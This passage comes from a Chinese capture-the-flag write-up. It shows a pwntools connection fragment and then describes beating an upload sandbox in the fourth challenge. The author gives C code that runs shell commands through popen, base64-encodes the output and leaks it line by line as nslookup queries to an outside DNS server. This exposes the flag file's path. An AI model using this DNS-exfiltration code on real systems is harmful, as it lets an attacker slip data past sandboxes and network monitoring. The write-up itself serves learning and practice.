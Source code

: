 ```
exxp(0)

p = remote("114.215.211.232",2713)
exxp(1)

p = remote("114.215.211.232",6350)
exxp(2)

p = remote("114.215.211.232",6175)
exxp(3)

p = remote("114.215.211.232",8764)
exxp(4)



p.interactive()
```

结果如图，得到第4题的地址
![img](/img/post/ali-5.png)

# no4
这题是必做题的最后一道了，也是比较有意思的一道。一上来是个上传页面，试了jpg,png,zip,php,txt等都不能上传，扫端口服务也无果。通过报错页面知道是python flask搭建的web服务，不过也没有什么想法。
但是在页面源码处发现给明了系统版本号，于是突发奇想编译一个elf上传试试居然通过了。这么一来就猜测这题的思路大致是要上传一个能通过沙箱验证的程序然后读取flag文件或者反弹一个shell回来。
一开始编写了一个最简单的建立socekt通信的，但是死活收不到连接请求。这个时候就想会不会是程序没加壳之类的，于是试了upx打包之后发现还是不行，这个时候思路就走到死胡同了，不知道怎么才能知道上传的程序到底运行起来了没。卡了一天之后实在没办法就到微博上去勾搭垚神@(__Zz土z土z土zZ__)，告诉说不一定没执行，只是外面收不到消息而已。这才恍然大悟，看来单独建立socket连接是不行的，需要搭某个服务的顺风车才能把消息发出来。
第一个想到的就是利用dns请求。先写了一个执行```system("nslookup hello.com 我的ip")```的程序，发现果然收到了这个dns请求。
接下来就顺理成章了，利用popen执行列目录，读文件等系统命令，将结果填到需要请求解析的域名处，大致代码如下：

```
#include<stdio.h>
#include<stdlib.h>
#include<string.h>

int main(){
FILE *fp;
if ((fp = popen("ls -a | base64","r")) == NULL){
system("nslookup failed.hello.com *.*.*.*");
return -1;
}
char buf[64];
while(fgets(buf,64,fp)!=NULL){
char buffer[200];
char command[] = "nslookup %s *.*.*.*";
sprintf(buffer, command, buf);
printf("%s", buffer);
system(buffer);
}
return 0;
}
```
得到flag文件所在位置/home/cuckoo/flag.txt，稍微更改下代码，得到flag：http://121.42.149.60/2770f90b44e385afb56c7a806ec5d067/
